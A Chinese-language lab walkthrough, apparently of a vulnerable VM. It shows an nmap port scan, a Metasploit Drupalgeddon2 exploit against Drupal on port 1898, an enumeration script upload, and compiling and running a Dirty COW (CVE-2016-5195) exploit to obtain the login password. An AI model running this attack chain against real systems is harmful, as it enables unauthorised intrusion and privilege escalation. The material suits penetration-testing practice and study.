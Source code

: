 `nmap -sS -T4 -p 1-65535 -v 192.168.64.141`  
![](https://gitee.com/fuli009/images/raw/master/public/20230217134916.png)  
发现drupal,利用漏洞  
通过开放的1898端口进入网站，看到目标网站，发现网站cms是drupal  
![](https://gitee.com/fuli009/images/raw/master/public/20230217134917.png)

    
    
    # msf 搜索drupal漏洞,使用可利用漏洞进行攻击  
    >search drupal  
    # exploit/unix/webapp/drupal_drupalgeddon2  
    >use 1  
    >set rhosts 192.168.64.141  
    >set rport 1898  
    >run  
    

![](https://gitee.com/fuli009/images/raw/master/public/20230217134918.png)

信息收集

上传信息收集脚本，发现存在脏牛提权漏洞

    
    
    upload /tmp/linux-exploit-suggester.sh  /tmp/lasc.sh  
    

![](https://gitee.com/fuli009/images/raw/master/public/20230217134919.png)  
进入shell 执行信息收集脚本,执行结果中发现【CVE-2016-5195】脏牛漏洞

    
    
    shell  
    cd /tmp  
    chmod 777 lasc.sh  
    ./lasc.sh  
    

![](https://gitee.com/fuli009/images/raw/master/public/20230217134921.png)

漏洞利用  
![](https://gitee.com/fuli009/images/raw/master/public/20230217134922.png)  
下载exp,上传exp

    
    
    # 40611没成功,使用40847  
    mv 40847.cpp /tmp/   
    upload /tmp/40847.cpp  /tmp/lasc.cpp  
    # 进入shell编译执行exp,得到登录密码  
    shell  
    g++ -Wall -pedantic -O2 -std=c++11 -pthread -o exp lasc.cpp -lutil  
    ./exp  
    